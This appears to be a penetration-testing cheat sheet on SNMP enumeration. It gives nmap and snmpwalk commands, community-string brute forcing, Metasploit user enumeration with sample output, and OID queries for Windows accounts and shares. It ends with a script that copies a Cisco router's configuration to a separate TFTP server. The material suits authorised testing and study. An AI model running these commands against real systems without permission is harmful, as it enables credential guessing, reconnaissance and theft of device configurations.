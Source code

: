 ```yaml
---
description: >-
  UDP 161 - Simple Network Management Protocol (SNMP) is an Internet Standard
  protocol for collecting and organizing information about managed devices.
---
```


# 161 - SNMP

### Information

It's important to remember that SNMP has 3 versions:

| Version | Info |
| :--- | :--- |
| 1 | The initial version of the protocol. It is easy to set up and is defined in RFC 1155 and 1157. |
| 2c | The revised version with enhanced protocol packet types, transport mappings, and MIB structure elements, but also uses the existing SNMPv1 administration structure \("community-based" and hence SNMPv2c\). |
| 3 | Facilitates remote configuration of SNMP entities. It also adds both encryption and authentication, which can be used together or separately, making this the most secure version yet. |

### Install SNMP-MiBS 

```text
apt install snmp-mibs-downloader 
echo "" > /etc/snmp/snmp.conf 
```

### Discover SNMP

`nmap -p 161 -sU -oA nmap_udp_snmp 10.10.10.92` 

### Scan Host

```text
snmpwalk -v2c -c public 192.168.1.234 
-v = version of the SNMP - most poplur 2c 
-c = the public string (default public) 
```

### Brute force community string

```text
./onesixtyone -c /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.10.92 
Scanning 1 hosts, 122 communities 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
```

### **Metasploit - Enumerate users**

```text
msf5 auxiliary(scanner/snmp/snmp_enumusers) > show options  
Module options (auxiliary/scanner/snmp/snmp_enumusers): 
   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   COMMUNITY  public           yes       SNMP Community String 
   RETRIES    1                yes       SNMP Retries 
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax '
file:<path>
' 
   RPORT      161              yes       The target port (UDP) 
   THREADS    1                yes       The number of concurrent threads (max one per host) 
   TIMEOUT    1                yes       SNMP Timeout 
   VERSION    1                yes       SNMP Version <1/2c> 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > set rhosts 192.168.0.41 
rhosts => 192.168.0.41 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > run 
[+] 192.168.0.41:161 Found 6 users: daemon, jack, noaccess, nobody, root, smmsp 
[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

### SNMP IPv6 Enumeration 

Enyx is an enumerator tool about grabbing the possible IPV6 of a machine through the snmp protocol. 

### SNMPv3 

Identify SNMPv3 servers with nmap: 

`nmap -sV -p 161 --script=snmp-info TARGET-SUBNET` 

Rory McCune’s snmpwalk wrapper script helps automate the username enumeration process for SNMPv3: 

```text
apt-get install snmp snmp-mibs-downloader 
wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb
```

###  SNMP  Enumeration - Windows tool

Getif is a free multi-functional Windows GUI based Network Tool written by Philippe Simonet.  It is amongst other things, an excellent SNMP tool that allows you to collect and graph information from SNMP devices. 

Download: 

[http://www.wtcs.org/snmp4tpc/getif.htm](http://www.wtcs.org/snmp4tpc/getif.htm) 

Install and set compatability as Windows XP SP2 

Press STRAT once you put the IP and public commuinty 

Download the  SNMP4tPC Getif MIB collection as well.

![](../../../.gitbook/assets/getimage.gif)

For each tab press 'start' to get the information  

`Error: If you getting 'DllRegisterServer (msflxgrd) failed' error` – run the software as administrator  

### **Common Mibs**

**interfaces**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.2.2` 

**Windows User Accounts**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25` 

**Windows Running Programs**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2` 

**Windows Hostname**   
`snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5` 

**Windows Share Information**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1` 

**Windows Share Information**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27` 

**Windows TCP Ports**   
`snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3` 

**Software Name**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2` 

**SysLocation**   
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.1.6`

### Solaris MIBS

Enumerate users on solaris:

`use auxiliary/scanner/snmp/snmp_enumusers`

### Download Cisco Conf

Copies configuration files from Cisco devices running SNMP. 

**Usage**: 

```text
root@kali:~# copy-router-config.pl 
###################################################### 
# Copy Cisco Router config  - Using SNMP 
# Hacked up by muts - muts@offensive-security.com 
####################################################### 
Usage : ./copy-copy-config.pl <router-ip> <tftp-serverip> <community> 
Make sure a TFTP server is set up, preferably running from /tmp ! 
```

**Example:** 

`root@kali:~# copy-router-config.pl 192.168.1.1 192.168.1.15 private`



